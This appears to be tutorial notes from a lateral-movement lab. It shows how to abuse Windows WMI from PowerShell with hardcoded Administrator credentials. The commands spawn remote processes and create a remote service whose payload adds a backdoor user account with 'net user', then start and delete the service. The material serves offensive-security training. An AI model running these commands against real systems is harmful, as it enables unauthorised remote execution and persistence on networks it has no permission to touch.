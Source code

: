 WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

Connecting to WMI From Powershell

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password. This object will be stored in the $credential variable and utilised throughout the techniques on this task:

$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

There are two protocols when establishing a WMI session DCOM and Wsman.
To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use directry.

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

Remote Process Creation Using WMI
We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value lol";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}

Creating Services Remotely with WMI
We can create services with WMI through Powershell. To create a service called LOLService, we can use the following command:

Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "LOLService";
DisplayName = "LOLService";
PathName = "net user lol Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

And then, we can get a handle on the service and start it with the following commands:

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'LOLservice'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

Finally, we can stop and delete the service with the following commands:

Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete

